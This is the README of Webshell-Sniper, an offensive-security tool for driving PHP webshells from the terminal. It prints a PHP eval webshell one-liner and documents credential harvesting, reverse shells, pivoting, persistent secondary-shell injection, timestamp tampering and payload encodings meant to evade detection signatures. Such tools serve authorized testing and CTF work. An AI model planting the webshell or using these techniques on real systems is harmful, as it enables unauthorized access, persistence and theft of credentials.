

# Webshell-Sniper

A webshell manager via the terminal — for **authorized** penetration testing,
security research and CTF.

[](https://github.com/WangYihang/Webshell-Sniper/actions/workflows/ci.yml)
[](#backers)
[](#sponsors)

Given a PHP webshell that is already on a target (a one-liner such as
`<?php @eval($_POST['c']); ?>`), Webshell-Sniper turns it into a rich,
interactive console: command execution, recon, file transfer, a MySQL client,
pivot port-scanning, reverse shells and secondary-shell injection.



> The prompt's coloured chip always shows where your input lands — **`REMOTE`**
> on the target (`id` → `www-data`) vs **`LOCAL`** on your box (`whoami` →
> `ubuntu`) — so a command never hits the wrong machine.

> ## ⚠️ Legal & authorized use only
>
> This is an offensive-security tool. Use it **only** against systems you own
> or have **explicit, written permission** to test. Unauthorized access to
> computer systems is illegal in most jurisdictions. The authors accept no
> liability for misuse.

---

## Requirements

- Python **3.10+**
- A reachable PHP webshell that evaluates a request parameter (`eval`-style)

## Installation

With [uv](https://docs.astral.sh/uv/) (recommended):

```bash
git clone https://github.com/WangYihang/Webshell-Sniper
cd Webshell-Sniper
uv sync                      # creates the venv and installs everything
uv run webshell-sniper --help
```

Or as a normal package / standalone tool:

```bash
pip install .                # add '.[mount]' for the FUSE mount feature

# once published to PyPI, install it isolated as a CLI:
uv tool install webshell-sniper      # or: pipx install webshell-sniper
webshell-sniper --help
```

## Quick start

```bash
# url, http method, password parameter
webshell-sniper http://victim/c.php POST s3cr3t

# route everything through Burp / a SOCKS proxy, ignore a self-signed cert
webshell-sniper --proxy http://127.0.0.1:8080 --insecure http://victim/c.php POST s3cr3t

# manage several shells at once
webshell-sniper -f webshells.json

# non-interactive batch: run one action across all shells and write a JSON report
webshell-sniper -f webshells.json --batch exec --arg "id"
webshell-sniper -f webshells.json --batch inject
```

### Batch mode

`--batch {info,exec,inject,download}` loops a single action over every live
shell, writes a `batch_<action>_<ts>.json` report to the output dir, and exits
without entering the REPL — handy for scripting against many targets. `--arg`
supplies the command (for `exec`) or remote path (for `download`). Add
`--workers N` to process shells concurrently.

`webshells.json` is a list of endpoints:

```json
[
  {"url": "http://127.0.0.1/c.php", "method": "POST", "password": "c"},
  {"url": "http://127.0.0.1/d.php", "method": "GET",  "password": "d"}
]
```

## Interactive commands

Commands follow a namespaced `<group> <action>` scheme. Type a bare group (e.g.
`recon`) — or `help recon` — to list its actions; `Tab` completes both group and
action names.

**`recon`** — target reconnaissance

| Action | Description |
|--------|-------------|
| `recon info` | Target summary (URL, webroot, PHP & kernel version) |
| `recon php` / `recon kernel` | PHP version / kernel version |
| `recon configs` | Find config / database files in the webroot |
| `recon writable` / `recon writable-php` | Find writable directories / writable PHP files |
| `recon disabled` | List PHP `disable_functions` |
| `recon suid` | Find SUID-root binaries |
| `recon privesc` | Aggregate privesc enumeration (sudo/cron/caps/...) |
| `recon creds` | Harvest credential files + DB creds from configs |

**`file`** — remote file operations

| Action | Description |
|--------|-------------|
| `file ls [path]` | List a remote directory (mode/size/mtime) |
| `file read <path>` | Read a remote file (default `/etc/passwd`) |
| `file get [--find ARGS] [--name GLOB] <path>` | Download a file or tree (`--find` = custom `find` args) |
| `file put <local>` | Upload a local file to the target(s) |
| `file rm [path]` | Delete a remote file (no path → the shell deletes itself) |
| `file mv` / `file cp` | Move / copy a remote file |
| `file mkdir` / `file chmod` | Make a directory / chmod (octal) |
| `file edit <path>` | Download → open in `$EDITOR` → upload back |
| `file touch <path> <ref>` | Copy a reference file's timestamps onto a file |

**`pivot`** — lateral movement & tunnelling

| Action | Description |
|--------|-------------|
| `pivot scan [--hosts CIDR --ports LIST --banner]` | Port-scan a range *from the target* |
| `pivot shell [-i IP -p PORT -m METHOD]` | Reverse shell (socat/nc/bash/python/perl/php; optional local listener) |
| `pivot pty [shell]` | Print steps to upgrade a dumb shell to a PTY |
| `pivot socks [port]` | Plant a tunnel endpoint and open a local SOCKS5 proxy |
| `pivot db` | Database manager (MySQL / PostgreSQL): browse, dump, run SQL |

**`inject`** — secondary webshell injection

| Action | Description |
|--------|-------------|
| `inject web` / `inject mem` | Inject a plain / memory-resident webshell (random per-directory password) |
| `inject reaper` | Flag reaper (CTF) |

**Session-control verbs** (flat)

| Command | Description |
|---------|-------------|
| `exec <cmd>` | Explicitly run a command on the **remote** target |
| `!<cmd>` | Run a command on the **local** machine |
| `local` / `remote` | Route bare input to localhost / the target (default: `remote`) |
| `cd`, `pwd` | Change / show the tracked remote working directory |
| `history`, `save` | Show recorded commands / snapshot the session |
| `version`, `help`, `quit` | Version / help / quit |

Anything not recognized as a command runs as a shell command — on the **target**
by default (or locally after `local`). The prompt carries a coloured
`REMOTE`/`LOCAL` chip plus the tracked cwd so the active target is never
ambiguous. Required arguments can be passed as flags (scriptable) or are prompted
for interactively. cmd2 gives you history (↑/↓), `Tab` completion (including
remote paths) and `help <command>`.

## Command execution & evasion notes

- Payloads are encoded and `eval`'d server-side, so quotes, newlines and binary
  data survive transport intact (no fragile string interpolation).
- Choose the wire encoding with `--encoder {base64,b64var,gzip,xor}`: `gzip`
  (`gzinflate`) shrinks and reshapes the body; `xor` randomizes the key and
  decoder variable names every request; `b64var` builds `base64_decode` from
  fragments and calls it indirectly so the `eval(base64_decode(` signature never
  appears. `--split N` spreads each payload across N request params (PHP eval
  shells) to evade per-parameter size limits and single-field signatures.
- Command execution automatically picks the first **non-disabled** function from
  `system → passthru → shell_exec → exec → popen → proc_open`, so a target that
  disables `system()` still works.
- `--lang` selects the target shell type: `php` (eval, default) or `command`
  for command-only shells with no `eval` (e.g. a JSP `Runtime.exec` shell).
  Language specifics live behind a `Backend` abstraction (`docs/ARCHITECTURE.md`).
- `--generate PASSWORD` writes a ready-to-plant PHP shell (obfuscated with the
  chosen `--encoder`) and exits.
- The REPL `socks` command plants a reGeorg-style tunnel endpoint and opens a
  local **SOCKS5 proxy**, so `curl --socks5`, `proxychains` or a browser can
  reach hosts only the target can see (the headline pivot capability).

## Output, config & sessions

- `--output {console,quiet,json}` selects the renderer: `quiet` prints only real
  output and errors (good for piping); `json` emits one machine-readable array.
- Settings layer **defaults < `~/.config/webshell-sniper/config.toml` <
  `WEBSHELL_SNIPER_*` env vars < CLI flags** (`--config` overrides the path).
- The interactive REPL has tab-completion (via cmd2) and a session model: `save`
  snapshots shells/cwd/history, `hist` shows recorded commands, and
  `--session FILE` resumes a saved snapshot. `pty` prints the steps to upgrade a
  dumb reverse shell to a full PTY.

<!-- TODO: asciinema demo recording -->
For CLI tab-completion outside the REPL, install
[`argcomplete`](https://pypi.org/project/argcomplete/) and run
`eval "$(register-python-argcomplete webshell-sniper)"`.

## Local test target

A disposable, intentionally-vulnerable PHP container lives in [`docker/`](docker/):

```bash
docker compose -f docker/docker-compose.yml up -d
webshell-sniper http://127.0.0.1:8080/index.php POST c
```

## Development

```bash
uv sync
uv run ruff check src tests     # lint
uv run mypy                     # type-check
uv run pytest                   # unit + integration (integration needs `php`)
```

Integration tests spin up their own `php -S` target and are skipped when `php`
is not installed. A pre-commit config is provided (`pre-commit install`).

Extend the REPL with your own commands via plugins — see
[docs/plugins.md](docs/plugins.md).

## Contributors

This project exists thanks to all the people who contribute.

<a href="https://github.com/WangYihang/Webshell-Sniper/graphs/contributors"></a>

## Backers

Thank you to all our backers! 🙏 [[Become a backer](https://opencollective.com/Webshell-Sniper#backer)]

<a href="https://opencollective.com/Webshell-Sniper#backers" target="_blank"></a>

## Sponsors

Support this project by becoming a sponsor. [[Become a sponsor](https://opencollective.com/Webshell-Sniper#sponsor)]

## License

See [LICENSE](LICENSE).
